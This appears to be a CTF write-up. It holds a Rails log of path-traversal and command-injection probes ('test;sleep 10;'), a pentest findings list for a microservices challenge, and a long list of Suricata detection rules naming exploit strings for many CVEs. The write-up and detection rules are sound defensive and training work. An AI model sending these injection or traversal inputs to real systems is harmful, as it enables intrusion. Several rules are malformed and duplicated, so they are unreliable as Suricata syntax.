I, [2024-04-14T04:16:00.835369 #11]  INFO -- : [41431e33-8db1-4fde-925f-9762e9acb028]   Parameters: {"filename"=>"../../app/views/layouts/application.html.erb"}
I, [2024-04-14T04:16:00.854654 #11]  INFO -- : [41431e33-8db1-4fde-925f-9762e9acb028] Completed 422 Unprocessable Entity in 19ms (Views: 4.2ms | ActiveRecord: 0.0ms | Allocations: 576)
I, [2024-04-14T04:16:00.959113 #62]  INFO -- : [53500a60-a862-48ab-a26a-28344b03f2df] Started GET "/download?filename=....////....////app/views/layouts/application.html.erb" for 103.109.113.220 at 2024-04-14 04:16:00 +0000
I, [2024-04-14T04:16:00.984048 #62]  INFO -- : [53500a60-a862-48ab-a26a-28344b03f2df] Processing by ApplicationController#download as */*
I, [2024-04-14T04:16:00.984214 #62]  INFO -- : [53500a60-a862-48ab-a26a-28344b03f2df]   Parameters: {"filename"=>"....////....////app/views/layouts/application.html.erb"}
I, [2024-04-14T04:16:01.010717 #62]  INFO -- : [53500a60-a862-48ab-a26a-28344b03f2df] Completed 422 Unprocessable Entity in 20ms (Views: 2.4ms | ActiveRecord: 0.0ms | Allocations: 576)
I, [2024-04-14T04:16:01.115846 #13]  INFO -- : [6822f234-a779-4b9e-bb07-6e8eba51315b] Started GET "/convert2pdf?filename=test%3Bsleep+10;" for 103.109.113.220 at 2024-04-14 04:16:01 +0000
I, [2024-04-14T04:16:01.137204 #13]  INFO -- : [6822f234-a779-4b9e-bb07-6e8eba51315b] Processing by ApplicationController#convert_to_pdf as */*
I, [2024-04-14T04:16:01.137401 #13]  INFO -- : [6822f234-a779-4b9e-bb07-6e8eba51315b]   Parameters: {"filename"=>"test;sleep 10;"}
I, [2024-04-14T04:16:01.171522 #13]  INFO -- : [6822f234-a779-4b9e-bb07-6e8eba51315b] Completed 422 Unprocessable Entity in 25ms (Views: 3.4ms | ActiveRecord: 0.0ms | Allocations: 576)
I, [2024-04-14T04:16:01.240605 #73]  INFO -- : [d69e6af2-c939-48c3-9d58-25217d6e1c85] Started GET "/" for 103.109.113.220 at 2024-04-14 04:16:01 +0000
I, [2024-04-14T04:16:01.256138 #73]  INFO -- : [d69e6af2-c939-48c3-9d58-25217d6e1c85] Processing by ApplicationController#application as */*
I, [2024-04-14T04:16:01.449571 #73]  INFO -- : [d69e6af2-c939-48c3-9d58-25217d6e1c85]   Rendered layout layouts/application.html.erb (Duration: 134.4ms | Allocations: 2952)
I, [2024-04-14T04:16:01.451474 #73]  INFO -- : [d69e6af2-c939-48c3-9d58-25217d6e1c85] Completed 200 OK in 195ms (Views: 194.1ms | ActiveRecord: 0.0ms | Allocations: 3698)
I, [2024-04-14T04:16:01.560660 #73]  INFO -- : [68fe4ac3-9630-4af2-8bf7-ea5cf74f24df] Started POST "/upload" for 103.109.113.220 at 2024-04-14 04:16:01 +0000
I, [2024-04-14T04:16:01.562695 #73]  INFO -- : [68fe4ac3-9630-4af2-8bf7-ea5cf74f24df] Processing by ApplicationController#upload as */*
I, [2024-04-14T04:16:01.563151 #73]  INFO -- : [68fe4ac3-9630-4af2-8bf7-ea5cf74f24df]   Parameters: {"authenticity_token"=>"[FILTERED]", "note"=>#<ActionDispatch::Http::UploadedFile:0x00007f68c8dccae8 @tempfile=#<Tempfile:/tmp/RackMultipart20240414-73-8i9mp6>, @content_type=nil, @original_filename="note", @headers="Content-Disposition: form-data; name=\"note\"; filename=\"note\"\r\n">}
I, [2024-04-14T04:16:01.599932 #73]  INFO -- : [68fe4ac3-9630-4af2-8bf7-ea5cf74f24df] Completed 200 OK in 37ms (Views: 0.5ms | ActiveRecord: 0.0ms | Allocations: 1421)
I, [2024-04-14T04:16:01.684075 #13]  INFO -- : [eea350e5-1849-410b-9062-0633185500dc] Started GET "/download?filename=7cda0631e7de00b3cb4b.md" for 103.109.113.220 at 2024-04-14 04:16:01 +0000
I, [2024-04-14T04:16:01.694128 #13]  INFO -- : [eea350e5-1849-410b-9062-0633185500dc] Processing by ApplicationController#download as */*
I, [2024-04-14T04:16:01.694318 #13]  INFO -- : [eea350e5-1849-410b-9062-0633185500dc]   Parameters: {"filename"=>"7cda0631e7de00b3cb4b.md"}
I, [2024-04-14T04:16:01.709107 #13]  INFO -- : [eea350e5-1849-410b-9062-0633185500dc] Sent file /rails/public/uploads/7cda0631e7de00b3cb4b.md (13.2ms)
I, [2024-04-14T04:16:01.709529 #13]  INFO -- : [eea350e5-1849-410b-9062-0633185500dc] Completed 200 OK in 15ms (ActiveRecord: 0.0ms | Allocations: 479)
I, [2024-04-14T04:16:01.800309 #24]  INFO -- : [026a995b-90b7-45b5-93b6-354ccc91ecb9] Started GET "/convert2pdf?filename=7cda0631e7de00b3cb4b.md" for 103.109.113.220 at 2024-04-14 04:16:01 +0000
I, [2024-04-14T04:16:01.827471 #24]  INFO -- : [026a995b-90b7-45b5-93b6-354ccc91ecb9] Processing by ApplicationController#convert_to_pdf as */*
I, [2024-04-14T04:16:01.827624 #24]  INFO -- : [026a995b-90b7-45b5-93b6-354ccc91ecb9]   Parameters: {"filename"=>"7cda0631e7de00b3cb4b.md"}
I, [2024-04-14T04:16:06.253456 #24]  INFO -- : [026a995b-90b7-45b5-93b6-354ccc91ecb9] Sent file /rails/public/uploads/7cda0631e7de00b3cb4b.md.pdf (16.2ms)
I, [2024-04-14T04:16:06.254002 #24]  INFO -- : [026a995b-90b7-45b5-93b6-354ccc91ecb9] Completed 200 OK in 4426ms (ActiveRecord: 0.0ms | Allocations: 857)
I, [2024-04-14T04:16:06.352581 #15]  INFO -- : [696f8228-13f2-4a6b-9fd5-5e09963209d1] Started GET "/FLAG%7Bd0nt-let-them-derail-y0u%7D" for 103.109.113.220 at 2024-04-14 04:16:06 +0000
E, [2024-04-14T04:16:06.361201 #15] ERROR -- : [696f8228-13f2-4a6b-9fd5-5e09963209d1]
[696f8228-13f2-4a6b-9fd5-5e09963209d1] ActionController::RoutingError (No route matches [GET] "/FLAG%7Bd0nt-let-them-derail-y0u%7D"):

```

:+1: FLAG{d0nt-let-them-derail-y0u}
<hr>

### microservices
Description - We heard that breaking an app up into microservices makes everything more secure, easy to maintain and all of that 
good stuff..

So imagine our surprise, when we saw the pentest report for our latest micro status blogging platform!! It has 
expressjs as the frontend, flask as the backend API, redis as a middleware caching layer and sqlite3 as a DB 
behind the API.

It uses docker and docker-compose, it's super scalable, etc...

Apparently the testers said it was "a total mess", "riddled with bugs" and "would've been better as a single 
page PHP app."

We just couldn't believe our eyes.

Anyway, we can't launch it yet cos we're not done with all the features and apparently there are many security issues.

Here's the findings and recommendations from the pentest report:

Critical: Broken authentication, trivial authentication bypass (rec: use express-session for auth in front end)

Critical: SQL injection (rec: use parameterized queries when talking to database)

Critical: Lack of authentication between web server and API (rec: return 401 on all api calls if Authorization: token <shared_secret> incorrect or missing)

High: cache synchronization issue, login does not always immediately work, sometimes still showing unauthenticated after login (rec: re-think caching) the /users/status form handling in the web service so that it talks to the API to update the user's status properly. GET /users/logout endpoint to log out the user with a logout button that only displays on the front end when the user is logged in

Critical: Cache server exposed over network (rec: only expose it to internal services)

High: SSRF between front and back end (rec: do not expose request path in parameter)

High: DOM based cross site scripting (rec: escape input/output)

Because of all that, we haven't dared touching the code yet. Can you show us how to do it properly?
Patch all the vulnerabilities mentioned above following the recommendations, and implement these new features securely:
When you're done let the check server know your IP address and we'll test it again.

Flag format: FLAG{Enter-YoUr_Flag-h3r3}

Solution:
See zip file - https://github.com/gnarkill78/CSA_S2_2024/blob/main/microservices.zip

:+1: FLAG{m1cr0s3rv1c3s_ar3_c0mplic4t3d}
<hr>

### Noise reduction (FIRST BLOOD)
Description
The new junior threat intelligence guy came up with a bunch of rules we should apply to our suricata, presumable off github or stackoverflow...

The file is too big and the senior SOC guys can't be even be bothered looking at it. Can you reduce the size of the rules and filter out the ones we don't need?
The Suricata IDS gets all the traffic from the router, which handles all inbound and outbound traffic for our intranet and DMZ. The intranet is all behind NAT, but servers in the DMZ has some internet facing IPs and such in a /24. AWS cloudfront (and their WAF) is supposed* to protect us from web attacks, but who knows?

Submit your filtered down suricata rules to our check server on port 80 and we'll have a look at it. Make sure your rules end with a new line.

Flag format: FLAG{}

This is the list of rules that returned the flag
```
alert http any any -> any any (msg:"Attempt to access sensitive directories"; content:"/"; http_uri; pcre:"/(\/|%2F)(etc|dev|proc|var|tmp|usr|home|boot|lib|opt|mnt|media|srv|root)(\/|%2F|$)/i"; classtype:attempted-recon; sid:50200001; rev:1;)
alert http any any -> any any (msg:"Possible XSS attack"; pcre:"/(<|%3C|%253C)script|on\w+(%3D|=)|javascript(:|%3A)/smi"; classtype:web-application-attack; sid:50100001; rev:1;)
alert http any any -> any any (msg:"ExacqVision Default Login Attempt"; content:"POST"; http_method; content:"/service.web"; http_uri; content:"action=login"; http_client_body; content:"u=admin"; http_client_body; content:"p=admin256"; http_client_body; classtype:default-login-attempt; sid:30000001; rev:1;)
alert http any any -> any any (msg:"Detect common files - robots.txt"; content:"/robots.txt"; http_uri; classtype:attempted-recon; sid:40000001; rev:1;)
alert http any any -> any any (msg:"Detect common files - sitemap"; content:"/sitemap"; http_uri; classtype:attempted-recon; sid:40000002; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-13942 on Apache Unomi"; flow:to_server,established; content:"POST"; http_method; content:"/context.js"; http_uri; content:"Runtime"; http_client_body; content:"getRuntime"; distance:0; http_client_body; content:"exec"; distance:0; http_client_body; reference:cve,CVE-2020-13942; classtype:web-application-attack; sid:202013942; rev:1;)
alert http any any -> any any (msg:"RCE on Apache Nifi"; flow:to_server,established; content:"PUT"; http_method; content:"/nifi-api/processors/"; startswith; http_uri; content:"\"Command\""; http_client_body; classtype:web-application-attack; sid:20202283; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-27130 on Cisco Security Manager - Download arbitrary file"; flow:to_server,established; content:"GET"; http_method; pcre:"/^\/(athena\/(xdmProxy\/(xdmConfig|xdmResources)|itf\/resultsFrame\.jsp)|cwhp\/(Xmp|Sample)FileDownloadServlet)/U"; content:"../"; distance:0; http_uri; reference:cve,CVE-2020-27130; classtype:web-application-attack; sid:2020271301; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-27131 on Cisco Security Manager"; flow:to_server,established; content:"POST"; http_method; pcre:"/^(\/CSCOnm\/servlet\/(SecretService\.jsp|com.cisco.nm.cmf.servlet\.(CsJaasServiceServlet|AuthTokenServlet|ClientServicesServlet|SecretServiceServlet)))|\/athena\/CTMServlet/U"; content:"|ac ed 00 05|"; startswith; http_client_body; content:"java/lang/Runtime"; distance:0; http_client_body; reference:cve,CVE-2020-27131; classtype:web-application-attack; sid:2020271311; rev:1;)
alert http any any -> any 7001 (msg:"Exploit CVE-2021-2109 on Oracle Weblogic Server"; flow:to_server,established; content:"/console/consolejndi.portal"; startswith; http_uri; content:"com.bea.console.handles.JndiBindingHandle"; content:"AdminServer"; distance:0; reference:cve,CVE-2021-2109; classtype:web-application-attack; sid:20212109; rev:1;)
alert http any any -> any 7001 (msg:"Exploit CVE-2020-2109 (chains with CVE-2020-14750) Oracle Weblogic Server"; flow:to_server,established; content:"/console/"; startswith; http_uri; pcre:"/\/console\/(css|images)\//"; content:"2e"; nocase; distance:1; http_raw_uri; content:"consolejndi.portal"; distance:1; http_uri; reference:cve,CVE-2021-2109; classtype:web-application-attack; sid:20212109; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-8209 on XenMobile"; flow:to_server,established; content:"/jsp/help-sb-download.jsp"; startswith; http_uri; reference:cve,CVE-2020-8209; classtype:web-application-attack; sid:20202255; rev:1;)
alert http any any -> any 8000 (msg:"Exploit CVE-2020-16846 on SaltStack Salt"; flow:established,to_server; content:"POST"; http_method; content:"/run"; startswith; http_uri; content:"client=ssh"; http_client_body; content:"ssh_priv="; http_client_body; content:"%20"; distance:0; http_client_body; reference:cve,CVE-2020-16846; classtype:web-application-attack; sid:202016846; rev:1;)
alert http any any -> any 7001 (msg:"Exploit CVE-2020-14750 on Oracle Weblogic Server"; flow:established,to_server; content:"/console/"; startswith; http_uri; pcre:"/^(css|images)\//UR"; content:"2e"; nocase; distance:1; http_raw_uri; content:"console.portal"; distance:1; http_uri; reference:cve,CVE-2020-14750; reference:cve,CVE-2020-14882; classtype:web-application-attack; sid:202014750; rev:1;)
alert http any any -> any any (msg:"Exploit CVE-2020-12146 on Silver Peak Unity Orchestrator"; flow:established,to_server; content:"POST"; http_method; content:"/gms/rest/debugFiles/delete"; startswith; http_uri; pcre:"/(localhost|127\.0\.0\.1)/W"; content:"../phantomGenImg.js"; http_client_body; reference:cve,CVE-2020-12145; reference:cve,CVE-2020-12146; classtype:web-application-attack; sid:20202233; rev:1;)
alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin-ajax.php"; content:"action=wpda_gall_load_image_info"; content:"gallery_current_index="; http_method; classtype:web-application-attack; sid:22022002; rev:1;)
alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin.php?page=rsvp-admin-export"; http_method; classtype:web-application-attack; sid:22022003; rev:1;)
alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-content/plugins/"; http_method; classtype:web-application-attack; rev:1; content:"/downloadpdffile.php"; content:"fileName="; sid:22015002; content:"/controller/download.php"; content:"filepath=/"; sid:22015003; content:"/includes/layout-settings.php"; content:"layout_settings_id="; sid:22016001; content:"/css.php"; content:"interval="; sid:22016002; content:"/js.php"; content:"interval="; sid:22016003; content:"/modules/syntax_highlight.php"; content:"libpath="; sid:22008001; content:"/view/sniplets/warning.php"; content:"text="; sid:22008002;) alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin-ajax.php"; content:"action=wpda_gall_load_image_info"; content:"gallery_current_index="; http_method; classtype:web-application-attack; sid:22022002; rev:1;) alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin.php?page=rsvp-admin-export"; http_method; classtype:web-application-attack; sid:22022003; rev:1;)
alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-content/plugins/"; http_method; classtype:web-application-attack; rev:1; content:"/downloadpdffile.php"; content:"fileName="; sid:22015002; content:"/controller/download.php"; content:"filepath=/"; sid:22015003; content:"/includes/layout-settings.php"; content:"layout_settings_id="; sid:22016001; content:"/css.php"; content:"interval="; sid:22016002; content:"/js.php"; content:"interval="; sid:22016003; content:"/modules/syntax_highlight.php"; content:"libpath="; sid:22008001; content:"/view/sniplets/warning.php"; content:"text="; sid:22008002;) alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin-ajax.php"; content:"action=wpda_gall_load_image_info"; content:"gallery_current_index="; http_method; classtype:web-application-attack; sid:22022002; rev:1;) alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin.php?page=rsvp-admin-export"; http_method; classtype:web-application-attack; sid:22022003; rev:1;) alert http any any -> any any (msg:"WordPress Plugin Vulnerability Detected"; http_uri; content:"/wp-admin/admin.php?page=rsvp-admin-export"; http_method; classtype:web-application-attack; sid:22022003; rev:1;)
alert http any any -> any any (msg:"Apache Struts 2 Vulnerability Detected"; http_uri; http_method; classtype:web-application-attack; rev:1; content:"/user.action"; content:"name="; content:"java.lang.ProcessBuilder"; content:"java.lang.String"; http_client_body; sid:22013001; content:"/index.action"; content:"redirect|3A|http"; http_uri; sid:22013002; content:"/index.action"; content:"redirect|3A|"; content:"java.lang."; http_uri; sid:22013003; content:"/index.action"; content:"action|3A|"; content:"java.lang."; http_uri; sid:22013004; content:"/index.action"; content:"redirectAction|3A|"; content:"java.lang."; http_uri; sid:22013005; content:"/login.action"; content:"redirect|3A|"; content:"java.lang."; http_uri; sid:22013006; content:"/login.action"; content:"action|3A|"; content:"java.lang."; http_uri; sid:22013007; content:"/login.action"; content:"redirectAction|3A|"; content:"java.lang."; http_uri; sid:22013008; content:"/login.action"; content:"password="; nocase; content:"java.lang.ProcessBuilder"; content:"java.lang.String"; http_client_body; sid:22007003;)
alert http any any -> any any (msg:"Joomla! Local File Inclusion Vulnerability Detected"; http_uri; http_method; classtype:web-application-attack; rev:1; content:"/index.php/component/chronoforums2/profiles/avatar/u1"; content:"av="; content:"../"; nocase; sid:22021003; content:"/index.php"; content:"option=com_rsfiles&task=files.display&path="; nocase; content:"../"; sid:22007002; content:"/index.php"; content:"option=com_imagebrowser&folder="; content:"../"; sid:22008004; content:"/index.php"; content:"option=com_extplorer&action=show_error&dir="; content:"..%2F%2F"; nocase; sid:22008005; content:"/components/com_ionfiles/download.php"; content:"file"; content:"../"; sid:22008007; content:"/index.php"; content:"option=com_biblestudy&id=1&view=studieslist&controller="; content:"../"; sid:22010001; content:"/index.php"; content:"option=com_ccnewsletter&controller="; content:"../"; sid:22010003;)
alert http any any -> any any (msg:"Vulnerability Detected"; http_uri; http_method; classtype:web-application-attack; rev:1; content:"/axis2-admin/login"; content:"loginUsername=admin"; content:"loginPassword=axis2"; http_client_body; sid:22010002; content:"/printenv.shtml"; content:"%3Cscript"; nocase; http_uri; sid:22019001; content:"/login.action"; content:"password="; nocase; http_client_body; content:"java.lang.ProcessBuilder"; content:"java.lang.String"; http_client_body; sid:22007003; content:"/user.action"; content:"name="; http_client_body; sid:22013001; content:"/index.action"; content:"redirect|3A|http"; http_uri; sid:22013002; content:"/index.action"; content:"redirect|3A|"; content:"java.lang."; http_uri; sid:22013003; content:"/index.action"; content:"action|3A|"; content:"java.lang."; http_uri; sid:22013004; content:"/index.action"; content:"redirectAction|3A|"; content:"java.lang."; http_uri; sid:22013005; content:"/login.action"; content:"redirect|3A|"; content:"java.lang."; http_uri; sid:22013006; content:"/login.action"; content:"action|3A|"; content:"java.lang."; http_uri; sid:22013007; content:"/login.action"; content:"redirectAction|3A|"; content:"java.lang."; http_uri; sid:22013008; content:"/context.js"; content:"Runtime"; content:"getRuntime"; content:"exec"; distance:0; http_client_body; sid:202013942; content:"/nifi-api/processors/"; startswith; content:"\"Command\""; http_client_body; sid:20202283;)
alert http any any -> any any (msg:"Attempt to access system directories"; classtype:attempted-recon; rev:1; content:"bin|sbin|etc|dev|proc|var|tmp|usr|home|boot|lib|opt|mnt|media|srv|root"; nocase; pcre:"/(\/|%2F)(bin|sbin|etc|dev|proc|var|tmp|usr|home|boot|lib|opt|mnt|media|srv|root)/i"; sid:50200001;)
alert http any any -> any any (msg:"Exploit CVE-2020-27130/27131 on Cisco Security Manager"; flow:to_server,established; content:"GET|POST"; http_method; pcre:"/^(\/athena\/(xdmProxy\/(xdmConfig|xdmResources)|itf\/resultsFrame\.jsp)|\/cwhp\/(Xmp|Sample)FileDownloadServlet|\/cwhp\/XmpFileUploadServlet|\/CSCOnm\/servlet\/(SecretService|com\.cisco\.nm\.cmf\.servlet\.(CsJaasService|com\.cisco\.nm\.cmf\.servlet\.(AuthToken|ClientServices|SecretService)Servlet))).*/U"; content:"../"; distance:0; http_uri; content:"filename=\".*\.\.\/.+\"\r\n"; pcre:"/|ac ed 00 05|java\/lang\/Runtime|java\/rmi\/server\/RemoteObject/"; http_client_body; reference:cve,CVE-2020-27130,CVE-2020-27131; classtype:web-application-attack; sid:2020271301; rev:1;)
alert http any any -> any any (msg:"Possible SQL Injection attack"; flow:established,to_server; content:"union|select|'"; nocase; pcre:"/(\/|%2F)\?(.*[&]?)(union|select|')=/i"; classtype:attempted-database-attack; sid:50300001; rev:1;)
alert http any any -> any any (msg:"Squirrelmail CVE-2006-2842 LFI, CVE-2002-1131 XSS"; content:"/src/(redirect|addressbook|options|search|help).php"; http_uri; content:"plugins[]=|<script"; nocase; http_uri; classtype:web-application-attack; sid:22006001; rev:1;)
alert http any any -> any any (msg:"Detect sitemap"; content:"/sitemap\.(xml|xsl|xsd)"; http_uri; classtype:attempted-recon; sid:40000002; rev:1;)
alert http any any -> any any (msg:"Local File Inclusion - Joomla CVEs"; content:"GET"; http_method; content:"/index\.php"; http_uri; pcre:"/(option=com_biblestudy&id=1&view=studieslist&controller=|option=com_ccnewsletter&controller=|component\/chronoforums2\/profiles\/avatar\/u1\?av=|option=com_rsfiles&task=files\.display&path=|option=com_imagebrowser&folder=|option=com_extplorer&action=show_error&dir=|components\/com_ionfiles\/download\.php\?file)/i"; content:"\.\./"; http_uri; classtype:web-application-attack; sid:22010001; rev:1;)
alert http any any -> any any (msg:"CVE-2018-0127: Cisco RV132W/RV134W Router - Information Disclosure"; content:"GET"; http_method; content:"/dumpmdm.cmd"; http_uri; classtype:web-application-attack; sid:22018001; rev:1;)
alert http any any -> any any (msg:"CVE-2018-0296: Cisco ASA - Local File Inclusion"; content:"GET"; http_method; content:"/+CSCOU+/../+CSCOE+/files/file_list.json"; http_uri; classtype:web-application-attack; sid:22018002; rev:1;)
alert http any any -> any any (msg:"CVE-2018-1207: Dell iDRAC7/8 Devices - Remote Code Injection"; content:"GET"; http_method; content:"/cgi-bin/login?LD_DEBUG=files"; http_uri; classtype:web-application-attack; sid:22018003; rev:1;)
alert http any any -> any any (msg:"CVE-2009-0545: ZeroShell <= 1.0beta11 Remote Code Execution"; content:"GET"; http_method; content:"/cgi-bin/kerbynet"; http_uri; content:"Section=NoAuthREQ&Action=x509List&type="; http_uri; classtype:web-application-attack; sid:22009001; rev:1;)
alert http any any -> any any (msg:"CVE-2009-0932: Horde/Horde Groupware - Local File Inclusion"; content:"GET"; http_method; content:"/horde/util/barcode.php"; http_uri; content:"type="; http_uri; content:"../"; nocase; http_uri; classtype:web-application-attack; sid:22009002; rev:1;)
alert http any any -> any any (msg:"CVE-2009-1151: PhpMyAdmin Scripts - Remote Code Execution"; content:"POST"; http_method; content:"/scripts/setup.php"; http_uri; content:"action="; nocase; http_client_body; content:"configuration="; nocase; http_client_body; content:"O|3A|10|3A 22|PMA_Config|22|"; nocase; http_client_body; classtype:web-application-attack; sid:22009003; rev:1;)
alert http any any -> any any (msg:"CVE-2023-29489: cPanel - Cross-Site Scripting"; content:"GET"; http_method; content:"/cpanelwebcall/"; content:"%3Cimg"; nocase; http_uri; classtype:web-application-attack; sid:22023001; rev:1;)
alert http any any -> any any (msg:"CVE-2023-28432: MinIO Cluster Deployment - Information Disclosure"; content:"POST"; http_method; content:"/minio/bootstrap/v1/verify"; http_uri; content:"application/x-www-form-urlencoded"; http_header; classtype:web-application-attack; sid:22023002; rev:1;)
alert http any any -> any any (msg:"CVE-2023-24322: mojoPortal 2.7.0.0 - Cross-Site Scripting"; content:"GET"; http_method; content:"/Dialog/FileDialog.aspx"; http_uri; content:"javascript"; nocase; pcre:"/javascript(:|%3A)/smi"; classtype:web-application-attack; sid:22023003; rev:1;)
alert http any any -> any any (msg:"CVE-2015-1503: IceWarp Mail Server <11.1.1 - Directory Traversal"; content:"GET"; http_method; content:"/webmail/old/calendar/minimizer/index.php"; http_uri; content:"type='...%2f"; nocase; http_uri; classtype:web-application-attack; sid:22015001; rev:1;)
alert http any any -> any any (msg:"CVE-2005-2428: Lotus Domino R5 and R6 WebMail - Information Disclosure"; content:"/names.nsf/People?OpenView"; http_uri; classtype:web-application-attack; sid:22005001; rev:1;)
alert http any any -> any any (msg:"CVE-2005-4385: Cofax <=2.0RC3 - Cross-Site Scripting"; content:"/search.htm"; http_uri; content:"searchstring="; nocase; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22005002; rev:1;)
alert http any any -> any any (msg:"CVE-2019-12593: IceWarp Mail Server <=10.4.4 - Local File Inclusion"; content:"GET"; http_method; content:"/webmail/calendar/minimizer/index.php"; http_uri; content:"style="; http_uri; content:"..%5C"; nocase; http_uri; classtype:web-application-attack; sid:22019002; rev:1;)
alert http any any -> any any (msg:"CVE-2019-12581: Zyxel ZyWal/USG/UAG Devices - Cross-Site Scripting"; content:"GET"; http_method; content:"/free_time_failed.cgi"; http_uri; content:"err_msg="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22019003; rev:1;)
alert http any any -> any any (msg:"CVE-2011-0049: Majordomo2 - SMTP/HTTP Directory Traversal"; content:"GET"; http_method; content:"/cgi-bin/mj_wwwusr"; http_uri; content:"passw=&list=GLOBAL&user=&func=help&extra="; http_uri; content:"../"; http_uri; classtype:web-application-attack; sid:22011001; rev:1;)
alert http any any -> any any (msg:"CVE-2011-3315: Cisco CUCM, UCCX, and Unified IP-IVR- Directory Traversal"; content:"GET"; http_method; content:"/ccmivr/IVRGetAudioFile.do"; http_uri; content:"file="; http_uri; content:"../"; http_uri; classtype:web-application-attack; sid:22011002; rev:1;)
alert http any any -> any any (msg:"CVE-2011-2780: Chyrp 2.x - Local File Inclusion"; content:"GET"; http_method; content:"/includes/lib/gz.php"; http_uri; content:"file="; http_uri; content:"../"; http_uri; classtype:web-application-attack; sid:22011003; rev:1;)
alert http any any -> any any (msg:"CVE-2012-4547: AWStats 6.95/7.0 - 'awredir.pl' Cross-Site Scripting"; content:"GET"; http_method; content:"/awstats/awredir.pl"; http_uri; content:"url="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22012001; rev:1;)
alert http any any -> any any (msg:"CVE-2012-4273: 2 Click Socialmedia Buttons < 0.34 - Cross-Site Scripting"; content:"GET"; http_method; content:"/wp-content/plugins/2-click-socialmedia-buttons/libs/xing.php"; http_uri; content:"xing-url="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22012002; rev:1;)
alert http any any -> any any (msg:"CVE-2012-4253: MySQLDumper 1.24.4 - Directory Traversal"; content:"GET"; http_method; content:"/learn/cubemail/filemanagement.php"; http_uri; content:"action=dl&f="; http_uri; content:"../"; http_uri; classtype:web-application-attack; sid:22012003; rev:1;)
alert http any any -> any any (msg:"CVE-2014-1203: eYouMail - Remote Code Execution"; content:"POST"; http_method; content:"/webadm/?q=moni_detail.do&action=gragh"; http_uri; content:"type='|7C|"; http_client_body; classtype:web-application-attack; sid:22014001; rev:1;)
alert http any any -> any any (msg:"CVE-2014-4544: Podcast Channels < 0.28 - Cross-Site Scripting"; content:"GET"; http_method; content:"/wp-content/plugins/podcast-channels/getid3/demos/demo.write.php"; http_uri; content:"Filename="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22014002; rev:1;)
alert http any any -> any any (msg:"CVE-2014-10037: DomPHP 0.83 - Directory Traversal"; content:"GET"; http_method; content:"/photoalbum/index.php"; http_uri; content:"url="; http_uri; content:"../"; http_uri; classtype:web-application-attack; sid:22014003; rev:1;)
alert http any any -> any any (msg:"CVE-2020-14179: Atlassian Jira Server/Data Center <8.5.8/8.6.0 - 8.11.1 - Information Disclosure"; content:"GET"; http_method; content:"/secure/QueryComponent!Default.jspa"; http_uri; classtype:web-application-attack; sid:22020001; rev:1;)
alert http any any -> any any (msg:"CVE-2020-20982: shadoweb wdja v1.5.1 - Cross-Site Scripting"; content:"GET"; http_method; content:"/passport/index.php"; http_uri; content:"backurl="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22020002; rev:1;)
alert http any any -> any any (msg:"CVE-2020-12127: WAVLINK WN530H4 M30H4.V5030.190403 - Information Disclosure"; content:"GET"; http_method; content:"/cgi-bin/ExportAllSettings.sh"; http_uri; classtype:web-application-attack; sid:22020003; rev:1;)
alert http any any -> any any (msg:"CVE-2020-12720: vBulletin SQL Injection"; content:"POST"; http_method; content:"/ajax/api/content_infraction/getIndexableContent"; http_uri; content:"nodeId%5Bnodeid%5D"; http_uri; content:"%20select%20"; nocase; http_uri; classtype:web-application-attack; sid:22020004; rev:1;)
alert http any any -> any any (msg:"CVE-2021-21479: SCIMono <0.0.19 - Remote Code Execution"; content:"GET"; http_method; content:"/Schemas/$%7B"; http_uri; content:"java.lang.Runtime.getRuntime().exec"; http_uri; classtype:web-application-attack; sid:22021001; rev:1;)
alert http any any -> any any (msg:"CVE-2021-21799: Advantech R-SeeNet 2.4.12 - Cross-Site Scripting"; content:"GET"; http_method; content:"/php/telnet_form.php"; http_uri; content:"hostname="; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22021002; rev:1;)
alert http any any -> any any (msg:"CVE-2007-0885: Jira Rainbow.Zen - Cross-Site Scripting"; content:"/jira/secure/BrowseProject.jspa"; http_uri; content:"id="; nocase; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22007001; rev:1;)
alert http any any -> any any (msg:"CVE-2007-5728: phpPgAdmin <=4.1.1 - Cross-Site Scripting"; content:"/redirect.php"; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22007004; rev:1;)
alert http any any -> any any (msg:"CVE-2022-2487: Wavlink WN535K2/WN535K3 - OS Command Injection"; content:"POST"; http_method; content:"/cgi-bin/nightled.cgi"; http_uri; content:"page=night_led"; http_client_body; content:"start_hour=|3B|"; http_client_body; classtype:web-application-attack; sid:22022001; rev:1;)
alert http any any -> any any (msg:"CVE-2004-0519: SquirrelMail 1.4.x - Folder Name Cross-Site Scripting"; content:"/mail/src/compose.php"; http_uri; content:"%3Cscript"; nocase; http_uri; classtype:web-application-attack; sid:22004001; rev:1;)
alert http any any -> any any (msg:"CVE-2017-12637: SAP NetWeaver Application Server Java 7.5 - Local File Inclusion"; content:"GET"; http_method; content:"/scheduler/ui/js/ffffffffbca41eb4/UIUtilJavaScriptJS?/"; http_uri; classtype:web-application-attack; sid:22017001; rev:1;)
